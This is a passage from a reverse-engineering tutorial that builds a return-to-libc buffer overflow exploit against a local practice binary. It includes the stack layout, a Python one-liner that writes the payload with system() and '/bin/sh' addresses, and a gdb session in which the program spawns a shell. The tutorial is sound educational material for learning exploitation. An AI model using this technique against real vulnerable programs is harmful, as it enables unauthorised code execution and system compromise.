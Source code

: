 This view of stack of **func** might help:  

    <Buffer - 100 bytes><Padding - 8 bytes><Old ebp - 4 bytes><ReturnAddress - 4 bytes>

This has to converted to this with the help of gets. 

    <          'a' - 108 bytes            ><  'b' - 4 bytes  ><system_address -4 bytes><NewReturnAddress - 4 bytes><binsh_address>


Once we are done with this, we have successfully converted the "Returning back to a function" stack to "Calling a new function" Stack. 


Now that we have a plan, let us execute it. 


### Craft the payload

We know how the payload should look like. It should look like this:

    <          'a' - 108 bytes            ><  'b' - 4 bytes  ><system_address -4 bytes><NewReturnAddress - 4 bytes><binsh_address>

One thing to think about is, where will the **system** function return control back to? It was not actually called from any function. It was an illusion. But **system** is innocent and doesn't know that. 

For now, let us give NewReturnAddress = 'cccc'. 

This is the payload: 

    rev_eng_series/post_14$ python -c "print 'a' * 108 + 'b' * 4 + '\xa0\xfd\xe2\xf7' + 'c' * 4 + '\x0b\x0a\xf5\xf7'" > exploit.txt

Now, **exploit.txt** has the exploit payload. 

Only thing to do is run the vulnerable program again and inject this payload. 

### Exploit it!

Let us first open the program in gdb and see if we can get the shell or not. 

    rev_eng_series/post_14$ gdb -q defeat
    Reading symbols from defeat...(no debugging symbols found)...done.
    gdb-peda$ run < exploit.txt 
    Starting program: /home/adwi/ALL/rev_eng_series/post_14/defeat < exploit.txt
    Before calling func
    [New process 31425]
    process 31425 is executing new program: /bin/dash
    warning: the debug information found in "/lib64/ld-2.23.so" does not match "/lib64/ld-linux-x86-64.so.2" (CRC mismatch).

    [Inferior 2 (process 31425) exited normally]
    Warning: not running or target is remote
    gdb-peda$ 

Bingo! We got the shell. It says "executing new program: /bin/dash" . This is a success! There are 2 strange things. First is that we should have got a working shell here. We got to know that the shell program is run and then it got terminated. We have to see why this happened. Other thing is Return Address of **system** is **0x63636363**. So, once system returns, it returns to the code at 0x63636363 which will mostly end in a Seg Fault. But we didn't get any SegFault. The program peacefully exited. 
